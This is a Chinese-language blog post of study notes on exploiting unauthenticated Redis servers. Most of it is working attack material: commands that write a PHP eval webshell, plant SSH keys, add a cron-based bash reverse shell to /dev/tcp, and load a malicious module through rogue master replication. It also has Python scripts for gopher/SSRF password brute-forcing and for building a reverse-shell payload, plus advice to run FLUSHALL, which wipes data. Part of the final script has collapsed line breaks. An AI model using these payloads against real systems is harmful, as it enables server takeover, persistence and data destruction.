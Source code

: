 ```yaml
---
layout: post
title: redis 未授权使用
date: 2022-8-06
categories: blog
tags: [笔记,redis，测试]
description: redis在未授权登录后的利用学习笔记
---
```


这里是博客正文。

# **redis梳理**

redis命令了解 http://redisdoc.com/

**1.redis写入shell**（最常用的getshell套路，但因为权限问题，失败概率较高）

```shell
>CONFIG SET dir /VAR/WWW/HTML
>CONFIG SET dbfilename shell.php
>SET PAYLOAD '<?php eval($_GET[0]);?>'#set x "\r\n\r\n<?php phpinfo();?>\r\n\r\n" redis写入文件时会自带一些版本信息，不换行可能导致无法执行
>BGSAVE
```

tips:攻击者会在上线未授权或弱口令登录redis后在写马前，执行flushall,部分原因是因为redis数据都是缓存在内存中,所写内容有限，flushall清空数据来保证写马成功，但会造成数据丢失

利用条件：服务端连接redis存在未授权，并未登录验证
                  开了服务端存在web服务器，且知道web目录的路径

**2.写ssh&corn**（条件较为苛刻）

```shell
ssh-keygen -t rsa #生成密钥
cd .ssh & (echo -e "\n\n"; cat id_rsa.pub;echo -e "\n\n")>1.txt #本地执行将密钥写入
cat 1.txt | redis-cli -h x.x.x.x -x set crack #写入公钥 -x 代表从标准输⼊读取数据作为该命令的最后⼀个参数
>config set dir /root/.ssh
>config dbfilename keys
ssh -i id_rsa root@x.x.x.x #本地连接getshell

#写计划任务反弹shell
>set evil "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/x.x.x.x/1234 0>&1\n\n"
>config set dir /var/spool/cron
>config set  dbfilename root
>save
#局限性：redis写文件后的默认权限是644，但是ubuntu执行定时任务的权限是600，且ubun存在乱码会报错，所以写定时任务只能在centos上执行
```

利用已有脚本 hackredis.py

利用条件：服务端redis存在未授权，并未登录验证
                  服务端存在.ssh目录并且有写入权限

**3.设置主从复制加载恶意module**(也同样需要高权限操作，且数据同步容易删除目标redis上存储的数据)

设置目标机器为服务器的从属服务器

```shell
>SLAVEOF 127.0.0.1 7000 #设置7000的服务器为本服务的主服务器
>SLAVEOF NO ONE #取消主从复制
```

利用前验证环境可用性

```shell
>PING #测试连通性
>REPLCONF #刷新主从关系信息
>PSYNC/SYNC #验证是否可以正常连接
```

开始主从复制利用

```shell
#将目标redis设置为slave
>SLAVEOF IP port 
#设置redis数据库文件
>CONFIG SET dbfilename exp.so #主redis设置恶意模块
#加载恶意模块
>MODULE LOAD /var/lib/redis/exp.so #目标redis加载恶意模块
#实现命令执行
```

附录：redis module编写方法
编写模块不需要依赖redis或者其他库，只需要`#include "redismodule.h"`这个文件就可以编写
模块里必须有一个 `RedisModule_OnLoad() `函数，是模块入口点，可以在函数里定义模块名、新命令、新数据类型等等，其它内容与c,c#,cython写法相近

redis4.0以下可以通过主从复制把shell写入键值,新版本需要`protected-mode no`

**4.ssrf打redis**
利用gopher发送恶意代码攻击redis包括爆破redis弱口令和主从复制打redis爆破弱口令脚本：

```python
#参考代码
import urllib
import requests
import os

payload =
"""*2
$4
AUTH
${0}
{1}
QUIT
"""

with open("top500.txt") as f:
    for i in f:
        password = i.strip()
        length = len(password)
        poc = payload.format(length,password)
        tmp = urllib.parse.quote(poc)
        new = tmp.replace('%0A','%0D%0A')
        result = '_'+new
        result = "gopher://192.168.242.129:6379/"+result
        status = os.system('curl %s'%result)
        if status:
            print(password)
            break
            
import urllib
import requests
import os

payload =
"""*2
$4
AUTH
${0}
{1}
QUIT
"""
u ="http://127.0.0.1/?url={0}"

with open("top500.txt") as f:
    for i in f:
        password = i.strip()
        length = len(password)
        poc = payload.format(length,password)
        tmp = urllib.parse.quote(poc)
        new = tmp.replace('%0A','%0D%0A')
        result = '_'+new
        result = "gopher://192.168.242.129:6379/"+result
        url = u.format(result)
        print(url)
```

主从复制打redis工具：https://github.com/Dliv3/redis-rogue-server

附录：RESP协议
redis在1.2中引入RESP协议，redis2.0开始成为redis标准通信方式，例如下面的利用脚本。

```shell
*4
$6
config
$3
set
$3
dir
$5
/tmp/
*4
$6
config
$3
set
$10
dbfilename
$9
module.so
*3
$7
slaveof
$7 #ip长度
test.cn #ip
$4 #端口长度
8080 #端口
*3
$6
module
$4
load
$14
/tmp/module.so
*2
$11
system.exec
$2
id #执行的命令
*1
$4
quit
```

上述代码利用工具编码，使用gopher协议发包即可命令执行
rogue-sever.py需要一个死循环一直跑，防止目标redis连接上后就自动断开连接，导致exp.so没法传完

```shell
#do.sh
while ["1"="1"]
do
   python rogue-sever.py
done
```

tips：生成的payload需要二次编码后发送才能利用

```python
/*gopher协议反弹shell利⽤脚本*/
import urllib
protocol="gopher://"
ip="192.168.127.140"
port="6379"
reverse_ip="192.168.127.131"
reverse_port="7777"
cron="\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/%s/%s 0>&1\n\n\n\n"%
(reverse_ip,reverse_port)
filename="root"
path="/var/spool/cron"
passwd=""
cmd=["flushall", "set 1 {}".format(cron.replace(" ","${IFS}")), "config set dir
{}".format(path), "config set dbfilename {}".format(filename), "save" ]
if passwd: cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr): CRLF="\r\n" redis_arr = arr.split(" ") cmd=""
cmd+="*"+str(len(redis_arr)) for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF return cmd if __name__=="__main__": for x in cmd: payload +=
urllib.quote(redis_format(x)) print payload
```

弱密码测试
`nc ip 6379` 这时就是连接成功
输入 `INFO` 或 `PING` 如果成功，则未设置密码，如果显示 `-NOAUTH Authentication required`，则设置了密码
输入 `auth 123456`，即进行密码认证，测几个弱密码就行

**5.redis 利用bypass**

5.1 数据库过大时，redis写shell技巧(即1中第三步)

```shell
set payload "\r\n\r\n<?php set_time_limit(0);$fp=fopen('evil.php','w');fwrite($fp,'<?php @eval($_POST[\"evil\"]);?>');\r\n\r\n"
exit();
?>"
```

